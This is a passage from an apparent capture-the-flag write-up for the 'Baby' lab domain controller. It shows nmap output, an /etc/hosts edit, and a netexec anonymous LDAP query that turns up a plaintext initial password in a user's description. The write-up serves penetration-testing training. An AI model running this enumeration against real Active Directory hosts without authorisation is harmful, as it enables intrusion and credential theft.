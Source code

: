 ```terminal
| wrHcuksgbJuSK/OeFaovZ08SO9c=
|_-----END CERTIFICATE-----
| rdp-ntlm-info:
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-10-20T09:34:15+00:00
5357/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-10-20T09:34:16
|_  start_date: N/A
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 26485/tcp): CLEAN (Timeout)
|   Check 2 (port 49007/tcp): CLEAN (Timeout)
|   Check 3 (port 44720/udp): CLEAN (Timeout)
|   Check 4 (port 35831/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
```
From the port scan we can see that the machine is a Domain Controller with standard ports open. There is also information regarding the domain name and hostname, lets add this to our `/etc/hosts`file.

```bash
echo "10.10.95.204 BabyDC.baby.vl baby.vl" | sudo tee -a /etc/hosts
```

Lets start with some more basic enumeration of smb and ldap. Running `netexec` command for smb I was able to connect but this lead to nothing further.  Enumerating ldap we can see that ldap anonymous bind is enabled which allows us to query information about the AD. We can use `ldapsearch` or `netexec ldap`.

Checking for passwords in users description we get a hit
```terminal
nxc ldap BabyDC.baby.vl -u '' -p '' -M get-desc-users

SMB         10.10.95.204    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
LDAP        10.10.95.204    389    BABYDC           [+] baby.vl\:
GET-DESC... 10.10.95.204    389    BABYDC           [+] Found following users:
GET-DESC... 10.10.95.204    389    BABYDC           User: Guest description: Built-in account for guest access to the computer/domain
GET-DESC... 10.10.95.204    389    BABYDC           User: Teresa.Bell description: Set initial password to BabyStart123!
```
